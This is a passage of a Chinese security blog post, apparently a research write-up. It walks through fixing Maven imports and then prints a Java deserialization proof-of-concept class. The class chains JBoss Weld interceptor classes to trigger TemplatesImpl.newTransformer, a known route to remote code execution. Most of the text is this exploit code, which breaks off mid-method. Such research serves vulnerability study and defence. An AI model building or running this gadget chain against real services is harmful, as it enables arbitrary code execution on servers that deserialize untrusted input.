 刷新一下Maven  
即可看到我们之前的 POC 大面积爆红:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCs5y3qT7wcxgwHyDs4KXKyv9OLERicMJSsFE3LKnZLWTw8m9YE7A6ricwQ/640?wx_fmt=png&from=appmsg "")  
  
解决方法很简单, 只需要将import  
语法都删掉, 然后通过 IDEA 重新引入一次就行, 最终引入状况:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsXsgU8fOneyy9gia1BXOoyr6XdeyWV3f6p4ZHrZh0libj3icYjF7ODxIzw/640?wx_fmt=png&from=appmsg "")  
### POC  
```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.weld.interceptor.builder.InterceptionModelBuilder;
import org.jboss.weld.interceptor.builder.MethodReference;
import org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory;
import org.jboss.weld.interceptor.proxy.InterceptorMethodHandler;
import org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference;
import org.jboss.weld.interceptor.reader.DefaultMethodMetadata;
import org.jboss.weld.interceptor.reader.ReflectiveClassMetadata;
import org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata;
import org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator;
import org.jboss.weld.interceptor.spi.metadata.InterceptorReference;
import org.jboss.weld.interceptor.spi.metadata.MethodMetadata;
import org.jboss.weld.interceptor.spi.model.InterceptionModel;
import org.jboss.weld.interceptor.spi.model.InterceptionType;


import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;

public class UnserialPOC {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesImpl = getTemplatesImpl();
        Method evilMethod = templatesImpl.getClass().getMethod("newTransformer");

        InterceptionModelBuilder builder = InterceptionModelBuilder.newBuilderFor(HashMap.class);
        ReflectiveClassMetadata metadata = (ReflectiveClassMetadata) ReflectiveClassMetadata.of(HashMap.class);
        InterceptorReference interceptorReference = ClassMetadataInterceptorReference.of(metadata);

        Set<InterceptionType> s = new HashSet<>();
        s.add(InterceptionType.POST_ACTIVATE);
        DefaultMethodMetadata methodMetadata = getObjByReflection(DefaultMethodMetadata.class,                new Class[]{Set.class, MethodReference.class},                new Object[]{s, MethodReference.of(evilMethod, true)});


        List list = new ArrayList();
        list.add(methodMetadata);
        Map<InterceptionType, List<MethodMetadata>> hashMap = new HashMap<>();
        hashMap.put(InterceptionType.POST_ACTIVATE, list);

```